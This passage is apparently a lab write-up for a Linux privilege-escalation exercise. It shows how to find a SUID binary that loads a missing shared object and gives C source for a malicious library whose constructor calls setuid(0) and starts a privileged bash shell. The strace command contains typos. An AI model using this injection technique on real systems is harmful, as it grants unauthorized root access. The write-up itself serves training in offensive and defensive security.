 ## Task 12 - SUID/SGID Executables - Shared Object Injection
In this task, we are told that the `/usr/local/bin/suid-so` SUID binary is vulnerable to shared object injection. Let's confirm this by observing the behaviour of the binary when it is executed.

Let's begin by executing the binary located at `/usr/local/bin/suid-so`. Note that a progress bar is displayed before the program exits.

![SUID Shared Object](../../assets/images/thm/linuxprivesc/48-suid_shared_object.png)

We can look at the inner workings of the binary by using a utility called *strace*; *strace* is a diagnostic, debugging, and instructional userspace utility for the Linux OS. It intercepts and records the system calls which are called by a process and the signals which are received by a process.

```console
strace /user/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file:
```
![SUID Shared Object strace](../../assets/images/thm/linuxprivesc/49-suid_shared_object_strace.png)

Notice that the the output shows that the *suid-so* binary tries to load the `/home/user/.config/libcalc.so` shared object which does not exist. We can exploit this to gain privilege escalation by creating a malicious shared object in the specified directory which will get called when the *suid-so* binary gets executed.

Let's start by creating the `/home/user/.config` directory.

```console
mkdir /home/user/.config
```
We can now create a shared object with the following code which will spawn a Bash shell. Save the file to the `/home/user/.config` folder as *libcalc.c*.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```